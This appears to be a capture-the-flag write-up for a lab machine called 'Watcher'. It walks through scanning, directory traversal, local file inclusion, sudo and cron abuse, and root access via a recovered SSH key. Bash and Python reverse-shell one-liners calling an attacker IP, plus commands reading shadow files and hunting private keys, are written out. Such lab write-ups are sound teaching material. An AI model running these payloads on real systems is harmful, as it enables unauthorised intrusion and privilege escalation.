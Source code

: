 ```yaml
---

title: Watcher

difficulty: medium

date: "2023-06-07"

author: MatDef

---
```


  

# Information Gathering

  

### nmap
```shell
[REDACTED]
PORT   STATE SERVICE REASON  VERSION

21/tcp open  ftp     syn-ack vsftpd 3.0.3

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)

| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR

|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)

| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=

|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

|_http-generator: Jekyll v4.1.1

| http-methods:

|_  Supported Methods: GET HEAD POST OPTIONS

|_http-server-header: Apache/2.4.29 (Ubuntu)

|_http-title: Corkplacemats

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 ```


## Website
![](images/Pasted image 20230707155443.png)


Niktoscan

```shell
[REDACTED]
+ /robots.txt: Entry '/flag_1.txt' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file

+ /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt

+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed

+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649

+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.

+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.

+ /css/: Directory indexing found.

+ /css/: This might be interesting.

+ /images/: Directory indexing found.

+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/

```

### robots.txt

  ![[images/robot.txt.png]]
  - Secret File not accessable
##### flag_1.txt
![[images/Pasted image 20230707155735.png]]

### Directory Traversal possible
![[images/Pasted image 20230707162434.png]]
##### User List:
- toby
- mat
- ftpuser
- will
-> Sensitive file: Secret file do not read
![[images/Pasted image 20230707162723.png]]
-> Access to ftp
![[images/Pasted image 20230707163026.png]]
##### flag_2.txt
![[images/Pasted image 20230707163105.png]]
#### Local File Inclusion
-> Possible to add (pentestmonkey)php-reverse shell in files
Save location: `/home/ftpuser/ftp/files/rev_shell.php`
Access via Meterpreter/Metasploit
![[images/flag_locations.png]]
##### Flag_3.txt:
![[images/Pasted image 20230707163842.png]]
Can execute sudo without password
![[images/Pasted image 20230707164347.png]]
Spawn a shell: `sudo -u toby /bin/bash`
Access flag_4.txt and download to attacker with nc
![[images/Pasted image 20230707164754.png]]
There is a note
```shell
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
- /etc/crontab
```shell
[REDACTED]
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
-> Every Minute cow.sh script is running
![[images/Pasted image 20230707165303.png]]
Its modifiable
`toby@watcher:/home/toby/jobs$ echo '/bin/bash -i >& /dev/tcp/10.18.90.87/4444 0>&1' >> cow.sh`
##### flag_5.txt
![[images/Pasted image 20230707173036.png]]
Found note:
```shell
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

```

```shell
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *

```
Two script: `cmd.py` (writable with mat) and will_script.py
Edit cmd.py which is called by will_script.py
```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.90.87",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```
`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`
-> Got Access with will
![[images/Pasted image 20230707174117.png]]
```shell
sudo -l
ls -la /etc/passwd
ls -la /etc/shadow
find / -name id_rsa 2>/dev/null
id #group: adm
```

Search for files with permission-group adm:
```shell
find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
```
-> Found id_rsa base64 encoded
Connect as Root
```shell
ssh -i id_rsa root@10.10.56.139
```
##### flag_7.txt
![[images/Pasted image 20230707182523.png]]
